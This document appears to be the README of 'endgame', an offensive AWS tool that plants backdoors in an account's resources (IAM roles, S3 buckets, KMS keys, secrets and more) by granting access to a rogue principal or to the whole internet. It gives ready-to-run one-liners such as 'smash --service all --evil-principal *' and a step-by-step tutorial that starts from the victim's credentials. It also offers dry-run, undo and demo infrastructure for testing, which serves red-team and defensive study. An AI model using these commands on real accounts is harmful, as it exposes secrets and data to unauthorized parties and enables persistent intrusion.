

# endgame

Use a one-liner command to backdoor an AWS account's resources with a rogue AWS Account - or to the entire internet 😈

**TLDR**: `endgame smash --service all` to create backdoors across your entire AWS account - either to a rogue IAM user/role or to the entire internet.

```bash
# this will ruin your day
endgame smash --service all --evil-principal *
# This will show you how your day could have been ruined
endgame smash --service all --evil-principal * --dry-run
# Atone for your sins
endgame smash --service all --evil-principal * --undo
# Consider maybe atoning for your sins
endgame smash --service all --evil-principal * --undo --dry-run
```

## Supported Backdoors

| Backdoored Resource Type      | Support | Access Analyzer Support |
|-------------------------------|---------|-------------------------|
| ACM PCA                       | ✅     | ❌                       |
| CloudWatch Resource Policies  | ✅     | ❌                       |
| ECR Repositories              | ✅     | ❌                       |
| EFS File Systems              | ✅     | ❌                       |
| ElasticSearch Domains         | ✅     | ❌                       |
| Glacier Vault Access Policies | ✅     | ❌                       |
| IAM Roles                     | ✅     | ✅                       |
| KMS Keys                      | ✅     | ✅                       |
| Lambda Functions              | ✅     | ✅                       |
| Lambda Layers                 | ✅     | ✅                       |
| S3 Buckets                    | ✅     | ✅                       |
| Secrets Manager Secrets       | ✅     | ✅                       |
| SES Identity Policies         | ✅     | ❌                       |
| SQS Queues                    | ✅     | ✅                       |
| SNS Topics                    | ✅     | ❌                       |

## Installation

* Install

```bash
make install
```

## Tutorial

### Setup

* First, authenticate to AWS CLI using credentials to the victim's account.

* Set `EVIL_PRINCIPAL` environment variable to the rogue IAM User or Role that you want to give access to.

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil
```

* (_Optional_) Set `AWS_REGION` to the AWS Region and `AWS_PROFILE` to the profile in `~/.aws/credentials` that you want to use.

```bash
# If you don't supply these values, these will be the defaults.
export AWS_REGION="us-east-1"
export AWS_PROFILE="default"
```

### Create Demo Infrastructure

* 🚨This will create real AWS infrastructure and will cost you money! 🚨

```bash
make terraform-demo
```

> _Note: It is not exposed to rogue IAM users or to the internet at first. That will only happen after you run the exposure commands._

### `list-resources`: List resources to expose

Help page:

```
Usage: cli.py list-resources [OPTIONS]

  List AWS resources to expose.

Options:
  -s, --service TEXT   The AWS service in question. Valid arguments: acm-pca,
                       ecr, efs, elasticsearch, glacier, lambda, lambda-layer,
                       cloudwatch, iam, kms, s3, secretsmanager, ses, sns, sqs
                       [required]

  --profile, --p TEXT  Specify the AWS IAM profile.
  -r, --region TEXT    The AWS region
  -v, --verbose
```

* Examples:

```bash
# List IAM Roles, so you can create a backdoor via their AssumeRole policies
endgame list-resources -s iam

# List S3 buckets, so you can create a backdoor via their Bucket policies 
endgame list-resources --service s3
```

### `expose`: Expose resources by creating backdoors

#### Dry run

* Exploit resources (dry run)

```bash
endgame expose \
    --service iam \
    --name test-resource-exposure \
    --dry-run
```

It will output the following:

> 

#### Create backdoor

* Expose resources (🚨this is not a drill🚨)

```
endgame expose --service iam --name test-resource-exposure
```

Example output:

> 

#### Undo/Remove the backdoor

It will output the following:

> 


#### Expose everything


```bash
endgame smash --service all --dry-run
endgame smash --service all
endgame smash --service all --undo
```

## Current Resource Support Statuses

### Backdoors via Resource-based Policies

| Backdoored Resource Type      | Support | Access Analyzer Support |
|-------------------------------|---------|-------------------------|
| ACM PCA                       | ✅     | ❌                       |
| CloudWatch Resource Policies  | ✅     | ❌                       |
| ECR Repositories              | ✅     | ❌                       |
| EFS File Systems              | ✅     | ❌                       |
| ElasticSearch Domains         | ✅     | ❌                       |
| Glacier Vault Access Policies | ✅     | ❌                       |
| IAM Roles                     | ✅     | ✅                       |
| KMS Keys                      | ✅     | ✅                       |
| Lambda Functions              | ✅     | ✅                       |
| Lambda Layers                 | ✅     | ✅                       |
| S3 Buckets                    | ✅     | ✅                       |
| Secrets Manager Secrets       | ✅     | ✅                       |
| SES Identity Policies         | ✅     | ❌                       |
| SQS Queues                    | ✅     | ✅                       |
| SNS Topics                    | ✅     | ❌                       |

### Backdoors via Sharing APIs

| Backdoored Resource Type      | Support Status |
|-------------------------------|----------------|
| EC2 AMIs                      | ❌             |
| EBS Snapshots                 | ❌             |
| RDS Snapshots                 | ❌             |
| RDS DB Cluster Snapshots      | ❌             |


## Contributing

## Testing

### Unit tests

* Run [pytest](https://docs.pytest.org/en/stable/) with the following:

```bash
make test
```

### Security tests

* Run [bandit](https://bandit.readthedocs.io/en/latest/) with the following:

```bash
make security-test
```

### Demo Infrastructure

This program makes modifications to live AWS Infrastructure, which can vary from account to account. We have bootstrapped some of this for you.

* You can create example Terraform infrastructure with the following:

```bash
# To create the demo infrastructure
make terraform-demo

# To destroy the demo infrastructure
make terraform-destroy
```

### Integration tests

After making any modifications to the program, you can run a full-fledged integration test, using this program against your own test infrastructure in AWS.

* First, set your environment variables

```bash
# Set the environment variable for the username that you will create a backdoor for.
export EVIL_PRINCIPAL="arn:aws:iam::999988887777:user/evil"
export AWS_REGION="us-east-1"
export AWS_PROFILE="default"
```

* Then run the full-fledged integration test:

```bash
make integration-test
```

This does the following:
* Sets up your local dev environment (see `setup-dev`) in the `Makefile`
* Creates the Terraform infrastructure (see `terraform-demo` in the `Makefile`)
* Runs `list-resources`, `exploit --dry-run`, and `expose` against this live infrastructure
* Destroys the Terraform infrastructure (see `terraform-destroy` in the `Makefile`)

Note that the `expose` command will not expose the resources to the world - it will only expose them to your rogue user, not to the world.

# References

* [AWS Exposable Resources](https://github.com/SummitRoute/aws_exposable_resources)

* [Moto: A library that allows you to easily mock out tests based on AWS Infrastructure](http://docs.getmoto.org/en/latest/docs/moto_apis.html)

* [Moto Unit tests - a  great way to get examples of how they mock the creation of AWS resources](https://github.com/spulec/moto/blob/master/tests)

* [Paginators](https://boto3.amazonaws.com/v1/documentation/api/latest/guide/paginators.html)

* [Exception handling for specific AWS Services](https://boto3.amazonaws.com/v1/documentation/api/latest/guide/error-handling.html#parsing-error-responses-and-catching-exceptions-from-aws-services)

